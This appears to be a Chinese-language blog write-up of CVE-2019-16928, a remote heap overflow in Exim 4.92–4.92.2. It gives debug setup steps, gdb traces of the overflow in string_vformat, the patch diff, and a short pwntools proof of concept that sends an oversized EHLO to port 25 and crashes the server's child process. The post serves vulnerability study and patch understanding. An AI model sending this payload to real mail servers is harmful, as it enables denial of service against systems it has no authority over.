 ```yaml
---

layout: post

title: 'CVE-2019-16928-Exim远程堆溢出漏洞分析'

date: '2019-10-08'

header-img: "img/home-bg.jpg"

tags:
     - 学习笔记  
author: 'De4dCr0w'

---
```


<!-- more -->

### 调试环境搭建

```
(1) git clone https://github.com/Exim/exim.git

(2) git checkout 2600301ba6dbac5c9d640c87007a07ee6dcea1f4 

#切换到4.92.2 版本

(3) cd src

mkdir Local

(4) cp src/EDITME Local/Makefile
 
# 编辑Local/Makefile
 
“EXIM_USER=”改为“EXIM_USER=test”
 
# 注释EXIM_MONITOR=eximon.bin
------------------------------------
# 或者使用之前分析的Makefile文件：

wget "https://bugs.exim.org/attachment.cgi?id=1051" -O Makefile

# 修改EXIM_USER为当前系统上的用户

(5) 在Makefile最后添加一行：

CFLAGS += -g 进行源码调试

(6) cd ..

make && make install

(7) 启动

sudo /usr/exim/bin/exim -bdf -dd (-d+all输出信息更详细)

(8)配置文件

sudo vim /usr/exim/configure

将配置文件中的accept hosts = : 修改成 accept hosts = *

该漏洞在调试时如果是本地调试需要断网，不然无法触发漏洞

```

### 影响版本

Exim 4.92 ~ 4.92.2 


### 漏洞描述

漏洞代码位于：/src/src/string.c:string_vformat函数：（4.92.2版本）

![](../\image\2019-10-08-CVE-2019-16928-Exim远程堆溢出漏洞分析/1.png)

gstring_grow代码如下：

![](../\image\2019-10-08-CVE-2019-16928-Exim远程堆溢出漏洞分析/2.jpg)

```
1590		gstring_grow(g, g->ptr, width - (lim - g->ptr));
gdb-peda$ p width
$7 = 0x2000
gdb-peda$ p lim
$8 = 0x80
gdb-peda$ p g->ptr
$9 = 0x12
gdb-peda$ p g
$10 = (gstring *) 0x2046930
gdb-peda$ x/10gx g
0x2046930:	0x0000001200000081	0x0000000002046940
0x2046940:	0x6f62736f20303532	0x6c6c654820736578
0x2046950:	0x000000000000206f	0x0000000000000000
0x2046960:	0x0000000000000000	0x0000000000000000
0x2046970:	0x0000000000000000	0x0000000000000000

```

在gstring_grow函数中会进行判断，如果EHLO发送的字符串过长，需要扩展堆块。例如传入字符串长度为0x2000，此时会通过store_newblock分配一个新的堆块，堆块大小为0x2020。

分配前：

![](../\image\2019-10-08-CVE-2019-16928-Exim远程堆溢出漏洞分析/3.jpg)

分配后：

![](../\image\2019-10-08-CVE-2019-16928-Exim远程堆溢出漏洞分析/4.jpg)

```
gdb-peda$ p g->ptr
$28 = 0x12
gdb-peda$ p g->s
$29 = (uschar *) 0x2048950 "250 osboxes Hello "
gdb-peda$ p gp
$30 = 0x2048962 ""
```
而字符串开始拼接的地方从gp开始：

```
g->ptr += sprintf(gp, "%*.*s", width, precision, s);

gdb-peda$ p width
$7 = 0x2000
```

拼接的长度为0x2000，所以拼接后的地址为：0x2048962+0x2000=0x204a962，溢出了19个字节，覆盖下一个堆块的presize，size以及fd的3个字节（包括字符串结束符\0）

![](../\image\2019-10-08-CVE-2019-16928-Exim远程堆溢出漏洞分析/6.jpg)

导致后面堆块分配时崩溃：

![](../\image\2019-10-08-CVE-2019-16928-Exim远程堆溢出漏洞分析/5.jpg)

但崩溃的是子进程，主进程会重新起一个子进程。


### 补丁分析

```
--- a/src/src/string.c
+++ b/src/src/string.c
@@ -1132,7 +1132,7 @@ store_reset(g->s + (g->size = g->ptr + 1));
 Arguments:
   g            the growable-string
   p            current end of data
-  count                amount to grow by
+  count                amount to grow by, offset from p
 */

 static void
@@ -1590,7 +1590,7 @@ while (*fp)
        }
       else if (g->ptr >= lim - width)
        {
-       gstring_grow(g, g->ptr, width - (lim - g->ptr));
+       gstring_grow(g, g->ptr, width);
        lim = g->size - 1;
        gp = CS g->s + g->ptr;
        }
```

漏洞形成原因是由于分配的堆块太小导致溢出，所以分配符合字符串大小的堆块就可以避免溢出。

### Poc代码

```
from pwn import *
import time
context.log_level = 'debug'

def EHLO(r,hostname):  
    time.sleep(1)
    r.sendline("EHLO "+hostname)
    r.recvline()

if __name__=='__main__':
    r = remote('localhost',25)
    payload = 'x'*0x2000
    EHLO(r,payload) 
    r.interactive()

```

### 漏洞利用尝试



### 参考链接

https://seclists.org/oss-sec/2019/q3/253

